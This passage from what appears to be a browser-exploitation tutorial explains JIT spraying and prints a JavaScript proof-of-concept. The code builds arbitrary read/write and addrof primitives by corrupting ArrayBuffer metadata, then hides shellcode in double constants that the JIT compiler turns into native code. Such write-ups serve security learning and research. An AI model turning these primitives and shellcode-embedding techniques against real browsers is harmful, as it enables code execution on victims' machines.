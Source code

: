 Now we define the constants in a function and then call it often enough to trigger the JIT compiler. The JIT compiler essentially compiles certain code from JavaScript to native code if it makes sense (e.g. it’s used a lot) in order to optimize for speed. By calling our function a lot of times we enforce the behavior. Now we can use our `addrof` primitive to get the address of our JITted function and then use gdb to inspect the memory. Note that we added the double for `\x41\x41\x41\x41` as the first constant in order to find the shellcode in memory.

**PoC_0x02.js**

```
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
 
// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)
 
function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    let typedB = new BigUint64Array(bBuf)
    return typedB[0]
}
 
function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
}
 
function addrof(obj){
    // Set a new property on the ArrayBuffer, its pointer will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}
 
function shellcode (){
    EGG = 5.40900888e-315;          // 0x41414141 in memory, marker to find
    C01 = -6.828527034422786e-229;  // 0x9090909090909090
    C02 = 6.867659397734779e+246     
    C03 = 7.806615353364766e+184
    C04 = 2.541954188459429e-198
    C05 = 3.2060568060029287e-80
    C06 = 3.4574612453438036e+198
    C07 = 7.57500810708945e-119
    C08 = 1.0802257739008538e+117
    C09 = -6.828527034370483e-229    
}
 
// JIT Spray - will make sure the constants are compiled to native code and create our shellcode
for (let i = 0; i < 100000; i++) {
    shellcode();
}
console.log(addrof(shellcode).toString(16));
```
